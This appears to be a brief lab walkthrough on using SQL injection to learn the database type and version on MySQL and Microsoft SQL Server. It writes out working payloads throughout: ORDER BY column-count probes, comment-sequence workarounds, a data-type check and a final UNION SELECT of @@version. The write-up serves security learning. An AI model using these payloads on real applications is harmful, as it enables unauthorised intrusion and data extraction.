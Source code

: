 # Database type and version on MYSQL and Microsoft

query for version checking  version

```sql
select @@version
```

end goal : database type and version

```sql
' union select @@version 
```
this query resulted in internal server error 

lets try to find out the number of columns

```sql
' order by 1-- // this comment sequence is not allowed here 
```

try some other methods for comment and always take space after comments

```sql
#
---
/**/
```

lets go with hash

```sql
' order by 1#
' order by 2#
```

got two columns , here we need to encode our query in url encode

for that if you are in burp select the query and press **ctrl+u** or online url encoder

Data types check

```sql
' union select 'a','a'# 
```

both column contains text

payload

```sql
' union select @@version, NULL# 
```

